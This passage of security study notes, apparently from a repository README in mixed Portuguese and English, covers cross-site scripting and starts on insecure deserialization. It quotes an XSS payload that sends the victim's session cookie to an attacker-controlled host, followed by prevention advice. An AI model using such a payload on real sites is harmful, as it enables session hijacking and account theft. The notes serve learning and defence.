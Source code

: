 the attacker modifies the 'CC' parameter in the browser to:

```
'><script>document.location='http://www.attackerxptoz.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>
```

this attack causes the victim´s session ID to be sent to the attacker´s website, allowing the attacker to hijack the user´s current session.

```diff
- NOTE: attackers can use XSS to defeat any automated cross-site request forgery (CSRF) defense the application might employ
```

#### como prevenir?
preventing XSS requires separation of untrusted data from active browser content. this can be achieved by:
* using frameworks that automatically escapes XSS by design, such as the latest Ruby on Rails, React JS. Learn the limitations of each framework´s XSS protection and appropriately handle the use cases which are not covered.

* escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, Javascript, CSS or URL) will resolve Reflected and Stored XSS vulnerabilities. the OWASP cheat sheet 'XSS Prevention' has details on the required data escaping techniques.

* applying context-sensitive encoding when modifying the browser document on the client side acts agaist DOM XSS. when this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the 'OWASP Cheat Sheet 'DOM based XSS Prevention'

* enabling a 'Content Security Policy (CSP)' (https://developer.mozilla.org/pt-BR/docs/Web/HTTP/CSP) is a defense-in-depth mitigating control agais XSS. it is effective if no other vulnerabilities exists that would allow placing malicious code via local file includes (e.g. path traversal overwrites or vulnerable libraries from permitted content delivery networks)

#### o que aprendemos?
* o que é cross site scripting
* exemplos de vulnerabilidades
* exemplos de prevençoes

### insecure deserialization
para entender um ataque de desserializaçao, primeiro precisamos entender o que é a serializaçao.

serializaçao é quando voce transforma os dados em alguma sequencia, uma sequencia de bytes, uma sequencia de texto, ou uma sequencia de qualquer coisa.

e quando ocorre essa transformaçao?

em geral, quando voce esta enviando coisas na internet, usando por exemplo JSON ou XML.

#### is the application vulnerable?

applications and APIs will be vulnerable if they deserialize hostile or tampered objects supplied by an attacker.

this can result in two primary types of attacks:
* object and data stricture related attacks where the attacker modifies application logic or achieves arbitrary remote code execution if there are classes available to the application that can change behaviour during or after deserialization
